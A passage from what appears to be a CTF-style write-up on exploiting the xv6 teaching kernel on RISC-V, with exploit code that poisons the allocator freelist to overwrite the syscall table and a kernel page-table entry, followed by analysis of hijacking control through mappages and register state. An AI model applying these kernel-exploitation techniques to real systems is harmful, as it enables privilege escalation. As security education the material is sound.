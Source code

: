     for (int i = 0; i < sizeof(original_syscall_table) / sizeof(uint64 *); i++)
    {
        uint64 *syscall = (uint64 *)syscall_table + i;
        *syscall = (uint64)original_syscall_table[i];
    }

    printf("[+] Got AW. (%p -> 0x80008000)\n", t2[aw_page]);

    uint64 *kernel_pagetable = (void *)t2[aw_page] + 0x8b0;
    *kernel_pagetable = (uint64)0x87fff000;
	[...]
}

void process2(uint64 *t[PAGES])
{
	[...]
	
    printf("[*] Stage 2: Poison the next pointer in kmem.freelist\n");

    uint64 *next_pointer = (uint64 *)0x80008450;
    *t[page] = (uint64)next_pointer;
}
{{< /code >}}

In the code shown above, `process2` overwrites the next pointer of the freed page with the address _0x80008450_. This address was chosen because the page _0x80008000_ contains the vector of function pointers of the syscalls. After that, `process1` allocates new memory until it corrupts the syscall table. This issue is caused by the allocator zeroing the requested page, and this observation allows us to identify the page mapped to _0x80008000_. As a result, the following string is printed to stdout:

```
3 exe: unknown sys call 12
```

Indeed, the number of the `SYS_SBRK` syscall is 12.

Note two important things here:

- Although the address is _0x80008450_, the mapped physical address will be *0x80008000*.
- The address _0x80008000_ cannot be remapped, as this will cause a kernel panic in the `mappages` function.

However, the syscall table can be easily restored. In addition, we can now overwrite any pointer in this table, making it possible to call an arbitrary address. Ideally, we would like to call the `mappages` function to get an executable page in the kernel page table, but we don't have full control over the argument passed when calling this function.
### Getting control of the kstack

In the RISC-V architecture the first eight arguments are passed in registers *a0* to *a7*, the signature of the `mappages` function is:

```c
int mappages(pagetable_t pagetable, uint64 va, uint64 size, uint64 pa, int perm);
```

While playing around with GDB, I discovered that some registers retain their value after the context switch (from user mode to kernel mode), such as registers _a1_, _a2_, and _a3_, but not _a0_. However, there is an important detail here: the register _a0_ always contains the value `proc+720`, which corresponds to the process that requested the syscall. This refers to the following data structure:
